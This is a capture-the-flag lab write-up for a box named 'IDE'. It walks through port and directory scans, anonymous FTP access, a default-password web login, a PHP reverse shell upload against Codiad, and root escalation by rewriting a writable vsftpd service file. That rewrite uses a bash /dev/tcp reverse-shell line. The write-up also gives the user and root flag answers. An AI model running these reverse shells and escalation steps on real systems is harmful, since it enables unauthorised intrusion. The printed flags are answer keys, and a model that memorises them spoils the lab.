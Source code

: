 # IDE

* IP = 10.10.33.250

## Questions/Tasks:

* Firstly, we scan for any open ports:
```bash
nmap -sC -sV $IP
```
### Nmap Initial Scan Results:
```bash
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open     http          Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
264/tcp   filtered bgmp
1164/tcp  filtered qsm-proxy
1183/tcp  filtered llsurfup-http
1600/tcp  filtered issd
4006/tcp  filtered pxc-spvr
9090/tcp  filtered zeus-admin
10180/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* This brings us here when opened in browser:<br>
![Screenshot](./assets/1.png)
* Search for directories on the webpage using Gobuster:
```
gobuster -u "http://10.10.164.73/" -w common.txt
```
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2022/06/30 09:58:18 Finished
=====================================================

```
* On the other hand there is *Anonymous* login enabled over FTP server(Which helps to login with username as Anonymous and with no password)...Let's try that<br>
![Screenshot](./assets/2.png)
* Contents of the file `-`:
```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```
* At this moment I have no idea what that means😮‍💨😮‍💨, anyways let's keep the statement in mind and save for later use!!
* Let's note *john* and *drac* as usernames for possible brute force on the webpage.
* Since gobuster shows us nothing interesting, we try an all port scan on Nmap( Maybe it can find something on some other port)🤔
### Nmap All Port Scan Results:
* Using `-p-` and `-Pn` switches:
* Since it was taking wayy too long, I decided to stop the whole scan:<br>
![Screenshot](./assets/3.png)
* And searched only for ephemeral ports:<br>
![Screenshot](./assets/4.png)
* Finally we got **62337** as an open port.
* visit the webpage: http://IP:62337/ whaich looks like this:<br>
![Screenshot](./assets/5.png)
* Used a python ![script](./script.py) to login, and got success in first try with Username as **john** and password as **password**
* After logging in:
![Screenshot](./assets/6.png)
* Searched for known exploits in <a href="https://www.exploit-db.com/">exploit-db</a> for **Codiad** and found some.
* Used a custom ![script](./script.py) to upload a php reverse shell payload file
* Setup a netcat listener and run the script:<br>
![Screenshot](./assets/7.png)
* Navigate to */home/drac* we see the following contents:<br>
![Screenshot](./assets/8.png)
* Use the found password `Th3dRaCULa1sR3aL` it escalate privileges to **drac**
![Screenshot](./assets/9.png)

1. user.txt

**Ans-02930d21a8eb009f6d26361b2d24a466**

* Firstly check for `sudo -l` using the same password:<br>
![Screenshot](./assets/10.png)
* So, we can restart the vsFTPd service.
* Check the current status with `systemctl status vsftpd`:<br>
![Screenshot](./assets/11.png)
* See carefully that the service loads **/lib/systemd/system/vsftpd.service** as the service file
* Also notice that the file permissions are: `-rw-rw-r--` which means its readable and writable for the *drac* group ID
* User nano/vim/vi to edit the file:
* Modify the `ExecStart` value with `/bin/bash -c 'bash -i >& /dev/tcp/[YOUR IP]/[PORT] 0>&1'`
* Finally it must look like this:<br>
![Screenshot](./assets/12.png)
* Now setup another listener in your machine with specified port
* Restart the vsftpd service like this:<br>
![Screenshot](./assets/13.png)
* A root connection will be received:<br>
![Screenshot](./assets/14.png)

2. root.txt

**Ans-ce258cb16f47f1c66f0b0b77f4e0fb8d**
